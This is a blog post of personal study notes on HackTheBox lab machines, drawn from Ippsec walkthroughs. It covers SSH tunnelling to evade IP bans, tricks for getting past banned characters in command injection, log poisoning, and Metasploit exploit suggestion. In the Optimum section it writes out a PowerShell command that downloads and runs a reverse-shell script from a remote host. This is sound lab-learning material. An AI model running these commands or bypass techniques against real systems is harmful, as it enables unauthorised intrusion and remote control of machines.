


+++
title = "Ippsec Review Notes"
date = 2019-05-24
[taxonomies]
tags = ["hackthebox"]
+++



### Bashed

* Web shells aren't persistent. To get a persistent shell, upload or execute a reverse shell script that connects back to an `nc` session.

* In the `linenum.sh` script, this output means that user `scriptmanager` can run `sudo` without a password and execute anything as `scriptmanager`.


### Sense

* This box is interesting because it's a real world type machine. If you brute force the login page and fail to login for more than 15 times, it will block your IP for 24 hours. Without knowing this, you can assume the box keeps crashing. What this machine teaches you is just because it bans your IP, you should always verify with another machine if it did ban your IP. Also, to bypass the banned IP, you can proxychain your own machine to another host and resume testing again.

```bash
ssh -D1080 10.10.10.74

vi /etc/proxychains

socks5 127.0.0.1 1080

proxychains curl -k https://10.10.10.1
```

* When injecting commands via URL, you sometimes run into issues where certain characters are banned such as dash and slashes. For slashes, you can use the linux environment variable such as HOME because by default it would be empty like this: `HOME=/`. For dash, you can use `printf` along with the ascii character that can be found using `man ascii` page.


### Nibbles

* Using `grep` searching for a specific string will lead you with a blob of data with barely readable results.


In order to sort this output to a better readable format:

```bash
grep -R 4.0.5 . | awk -F: '{print $1}' | uniq
```


* When viewing URLs that renders a blank page, always try to view source to see if data is readable. There are cases where files are the non-standard web extensions will show up as blank but the file in included in the web server.


* If you don't want to use exploits using Metasploit modules, you can read the file to see if there is a reference URL that leads to the original post on how to manually execute the exploit. This is a great way to see how the exploit process works rather than a button press get bacon scenario.

* Instead of always using `gobuster` or `dirbuster` to search for possible url links, the other method would be downloading the source code of the software platform and see how the file structure is organized.

* If you get IP blacklisted due to brute forcing the admin password through the admin control panel, you can use a SSH local port forward feature to bypass this IP restriction. The requirement is having another SSH accessible machine. How SSH local port forward works is:
	
	1. It will create a localhost port 9000.

	2. Any data traffic sent to 9000 will be redirected to the SSH tunnel travelling to the remote machine.

	3. The remote machine will then forward the request to the target destination.

Complete command:

```bash
ssh -L9000:10.10.10.75:80 10.10.10.73
```

Breakdown - Creates localhost port 9000:

```bash
ssh -L9000
```

Breakdown - Forward data using port 80:

```bash
ssh -L9000:10.10.10.75:80
```

Breakdown - Forwarded data is being sent to remote machine 10.10.10.73

```bash
ssh -L9000:10.10.10.75:80 10.10.10.73
```


* To check for file type:

```bash
file cmd.php
```

This is good for bypassing file checking.

* The `-p` switch is great for creating a chain of non-existant folder(s)

```bash
mkdir -p personal/stuff/veryprivate. 
```

### Valentine

* A tool to scan if the https is vulnerable to heartbleed vulnerability.

```bash
sslyze –heartbleed 10.10.10.79
```



* For a modern exploit like heartbleed, you may think, how do I begin to find this exploit and test it on a system. First, github will be your main source of finding proof of concept code. Second, find forums such as 0x00 and see if there are brief tutorials on how to execute the PoC. Third, if there is no clear tutorials, read the simple explanation concepts and see if you can read the code to dissect how it works. From there, you can tweak the small parts of the code for the desired outcome.

* An offline way to decode base64 strings:

```bash
echo -n aGVhcnRibGVlZGJlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
```

* Something I wasn't aware of is if you have a private .key file, the filename is usually the username.

```bash
ssh -i hype.key hype@10.10.10.79
```

* If `linenum.sh` script output doesn't show anything obvious, always go back and think about what other simple thing you could do. In this case, you can check out the user home directories for bash history or stored files.

### Poison

* [Nmap Bootstrap XSL stylesheet](https://github.com/honze-net/nmap-bootstrap-xsl) - This is pretty cool to visualize nmap logs using a web browser. Great for reports.

* PHP info File Upload exploit - if phpinfo page shows File Upload is on, you can upload a file and PHP will save the file into a cached directory. PHP server assumes that as long as the file cannot be accessed publicly, there will be no code execution. If you launch an LFI attack, code execution is possible.


* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) - A list of useful payloads and bypasses for Web Application Security

* There will be times where you download a script and when you try to execute it, errors will occur. Instead of instinctively Googling about the error, pause and think about what the error is about.

	* Does the script fail before it starts attempting to connect to the target server or does it fail during when it attacks the target server?

	* If it fails during when it attacks the target server, use a middle man tool such as Burpsuite and use the proxy setting to capture what the script is sending.
	
	* The proxy IP address Burpsuite should use is the target server and port. When you run the script, change the IP address to localhost and target port.
	
	* If the script is trying to find a specific parameter, why isn't it finding it? Typo? Encoding? Syntax? These are the things you need to pay attention when troubleshooting scripts.

Burpsuite results shows up as `&gt`


Script is looking for '>' symbol which resulted a script error.


* [SANS SSH Konami Code](https://pen-testing.sans.org/blog/2015/11/10/protected-using-the-ssh-konami-code-ssh-control-sequences) - Useful for running commands on local machine without terminating a running SSH session and other shortcuts.

* Listen on local ports 6801 and 6901, send any traffic through SSH to 127.0.0.1 5801 and 5901.

```bash
ssh -L6801:127.0.0.1:5801 L6901:127.0.0.1:5901 charix@10.10.10.84
```

* You can also contaminate the `httpd-access.log` using Burpsuite through `User-Agent` tag.

### Devel

* The “ms##” indicates the year of the patch. For example, ms10 would be 2010. If you see a long sequential list of possible exploits, check what the OS version is and check when it was first released. This piece of information will tell you if this machine has been maintained or not.


* In `msfconsole`, there is a module to suggest an exploit by testing the current open session.

```bash
use post/multi/recon/local_exploit_suggester
```

### Optimum

* If execution of an exploit doesn't provide feedback results like in Burpsuite, it's a called a blind execution. It's difficult to tell if the exploit worked or not. In these type of scenarios, try simple code execution testing such as pinging back to yourself. To know if the remote server is pinging back, you will need to use tcpdump on the listening interface to see the response back. Once you verify the response is valid, you can proceed with trying to reverse shell the machine.

This Burp request won't show results so it's hard to know if remote code execution is successful or not: 


But using `tcpdump` on an interface will monitor the ping response to verify the remote code execution is successful. 


* [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells) - Great repo for Powershell reverse shell scripts.

* Command execution to load Powershell reverse shell:

```powershell
c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1')
```

Encoded in Burpsuite:


* [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock) - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.